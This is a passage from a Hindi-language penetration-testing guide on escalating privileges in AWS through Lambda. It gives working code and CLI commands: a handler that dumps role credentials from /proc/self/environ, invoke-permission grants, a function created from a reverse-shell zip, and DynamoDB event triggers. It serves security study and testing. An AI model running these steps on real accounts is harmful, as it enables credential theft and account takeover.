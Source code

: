 ```python
PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
)
return response
```
यह भी संभव है कि बिना किसी बाहरी कनेक्शन की आवश्यकता के lambda के भूमिका क्रेडेंशियल्स लीक किए जाएं। यह **Network isolated Lambdas** के लिए उपयोगी होगा जो आंतरिक कार्यों पर उपयोग किए जाते हैं। यदि आपके रिवर्स शेल को फ़िल्टर करने वाले अज्ञात सुरक्षा समूह हैं, तो यह कोड आपको lambda के आउटपुट के रूप में सीधे क्रेडेंशियल्स लीक करने की अनुमति देगा।
```python
def handler(event, context):
sessiontoken = open('/proc/self/environ', "r").read()
return {
'statusCode': 200,
'session': str(sessiontoken)
}
```

```bash
aws lambda invoke --function-name <lambda_name> output.txt
cat output.txt
```
**संभावित प्रभाव:** निर्दिष्ट मनमाने लैम्ब्डा सेवा भूमिका के लिए सीधे प्रिवेस्क।

> [!CAUTION]
> ध्यान दें कि भले ही यह दिलचस्प लग सकता है **`lambda:InvokeAsync`** **अपने आप में** **`aws lambda invoke-async`** को **निष्पादित** करने की अनुमति नहीं देता, आपको **`lambda:InvokeFunction`** भी चाहिए।

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:AddPermission`

पिछले परिदृश्य की तरह, आप **`lambda:AddPermission`** अनुमति होने पर **अपने लिए `lambda:InvokeFunction`** अनुमति **प्रदान** कर सकते हैं।
```bash
# Check the previous exploit and use the following line to grant you the invoke permissions
aws --profile "$NON_PRIV_PROFILE_USER" lambda add-permission --function-name my_function \
--action lambda:InvokeFunction --statement-id statement_privesc --principal "$NON_PRIV_PROFILE_USER_ARN"
```
**संभावित प्रभाव:** निर्दिष्ट मनमाने लैम्ब्डा सेवा भूमिका के लिए सीधे विशेषाधिकार वृद्धि।

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateEventSourceMapping`

**`iam:PassRole`, `lambda:CreateFunction`, और `lambda:CreateEventSourceMapping`** अनुमतियों वाले उपयोगकर्ता (और संभावित रूप से `dynamodb:PutItem` और `dynamodb:CreateTable`) अप्रत्यक्ष रूप से **विशेषाधिकार बढ़ा सकते हैं** भले ही उनके पास `lambda:InvokeFunction` न हो।\
वे **दुष्ट कोड के साथ एक लैम्ब्डा फ़ंक्शन बना सकते हैं और इसे एक मौजूदा IAM भूमिका सौंप सकते हैं**।

लैम्ब्डा को सीधे सक्रिय करने के बजाय, उपयोगकर्ता एक मौजूदा DynamoDB तालिका स्थापित करता है या उसका उपयोग करता है, इसे एक इवेंट स्रोत मैपिंग के माध्यम से लैम्ब्डा से जोड़ता है। यह सेटअप सुनिश्चित करता है कि लैम्ब्डा फ़ंक्शन तालिका में एक नए आइटम के प्रवेश पर **स्वचालित रूप से सक्रिय हो** जाता है, चाहे वह उपयोगकर्ता की क्रिया द्वारा हो या किसी अन्य प्रक्रिया द्वारा, इस प्रकार अप्रत्यक्ष रूप से लैम्ब्डा फ़ंक्शन को सक्रिय करना और पास की गई IAM भूमिका के अनुमतियों के साथ कोड को निष्पादित करना।
```bash
aws lambda create-function --function-name my_function \
--runtime python3.8 --role <arn_of_lambda_role> \
--handler lambda_function.lambda_handler \
--zip-file fileb://rev.zip
```
यदि DynamoDB पहले से AWS वातावरण में सक्रिय है, तो उपयोगकर्ता केवल **Lambda फ़ंक्शन के लिए इवेंट स्रोत मैपिंग स्थापित करने की आवश्यकता है**। हालाँकि, यदि DynamoDB का उपयोग नहीं किया जा रहा है, तो उपयोगकर्ता को **स्ट्रीमिंग सक्षम के साथ एक नई तालिका बनानी होगी**:
```bash
aws dynamodb create-table --table-name my_table \
--attribute-definitions AttributeName=Test,AttributeType=S \
```